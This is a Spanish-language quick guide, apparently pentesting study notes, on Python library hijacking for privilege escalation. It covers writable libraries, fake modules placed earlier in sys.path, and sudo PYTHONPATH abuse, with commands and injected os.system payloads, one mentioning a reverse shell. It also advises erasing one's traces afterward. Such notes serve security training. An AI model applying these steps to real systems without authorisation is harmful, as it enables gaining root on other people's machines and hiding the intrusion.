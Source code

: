 # 📚 **Guía Rápida: Python Library Hijacking**

### 🎯 **Objetivo**

Ejecutar código malicioso aprovechando malas configuraciones en cómo Python carga sus librerías, consiguiendo escalada de privilegios.

## ✅ **Pre-requisitos generales**

- Un **script Python** ejecutable como **SUID** o con **sudo**.
    
- Tener **permiso de lectura** sobre dicho script.
    
- Acceso para modificar librerías o influir en la carga de módulos.

## 🔍 **Método 1: Hijacking por permisos de escritura incorrectos**

### 🔄 **Concepto**

Modificar directamente una librería legítima que tenga permisos de escritura para nuestro usuario.

### 🧩 **Pasos**

1. **Identificar un script Python ejecutable con sudo o SUID**
    
```bash
ls -l script.py
# Buscar SUID (-rws) o posibilidad de ejecutarlo con sudo.
```
2. Asegurarte de tener permisos de lectura sobre el script
	Esto te permitirá inspeccionar el código.
3. **Leer el script y detectar la librería y función usada**

```python
import psutil
available_memory = psutil.virtual_memory()
```
- 📌 **Objetivo**: Saber qué módulo importa (`psutil`) y qué función específica llama (`virtual_memory()`).
4. Localizar la ruta de la libreria:
```bash
pip3 show psutil
```

6. Localizar la función dentro de la librería:
```bash
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/
```
7. **Verificar si tenemos permisos de escritura en el fichero que contiene la función**
```bash
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

```

8. **Insertar código malicioso**  
Modificamos la función objetivo, por ejemplo:
```python
import os
os.system('id')  # o una reverse shell
```

9. Ejecutar el script vulnerable con privilegios
```bash
sudo /usr/bin/python3 ./script.py
```

## 🔍 **Método 2: Hijacking mediante la manipulación del Library Path**

### 🔄 **Concepto**

Crear una librería falsa en una ruta de mayor prioridad (según `sys.path`) que la ruta oficial.
### 🧩 **Pasos**

1.  Ver la ubicación del módulo utilizado por el script que podemos ejecutar como sudo o suid:
```bash
htb-student@lpenix:~$ pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages

...SNIP...
```
2. **Consultar el orden de búsqueda de módulos de Python**
```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

3. Identificar rutas superiores con permisos de escritura:
```bash
ls -ld /usr/lib/python3.8
```

4. Crear una librería falsa en la ruta escribible
En `/usr/lib/python3.8/psutil.py`:
```python
import os
def virtual_memory():
    os.system('id')

```

5. Ejecutar el script vulnerable

```bash
sudo /usr/bin/python3 ./script.py
```

## 🔍 **Método 3: Hijacking usando la variable PYTHONPATH**

### 🔄 **Concepto**

Modificar `PYTHONPATH` para que Python cargue módulos desde una carpeta controlada por nosotros.

### 🧩 **Pasos**

1. **Verificar permisos sudo para setear variables de entorno**
    
```bash
sudo -l
# Buscar SETENV en la salida (ejemplo: SETENV: NOPASSWD: /usr/bin/python3)

```

2. **Crear una librería falsa en una carpeta controlada**  
En `/tmp/psutil.py`:
```python
import os
def virtual_memory():
    os.system('id')

```

3. Ejecutar el script forzando PYTHONPATH:
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./script.py
```


## 🚩 **Indicadores de éxito**

- Se ejecuta tu payload (`id` muestra `uid=0(root)`).
    
- Puedes obtener una shell o ejecutar comandos con privilegios elevados.
    

---

## 💡 **Notas y consejos**

- **`sys.path`** siempre es el orden real de búsqueda de Python.
    
- **PYTHONPATH** se inserta **al principio** de `sys.path` cuando está definida.
    
- Siempre limpia tu rastro tras la explotación.
    
- Asegúrate de que tu módulo falso tenga **el mismo nombre y función** que el original (misma firma de la función).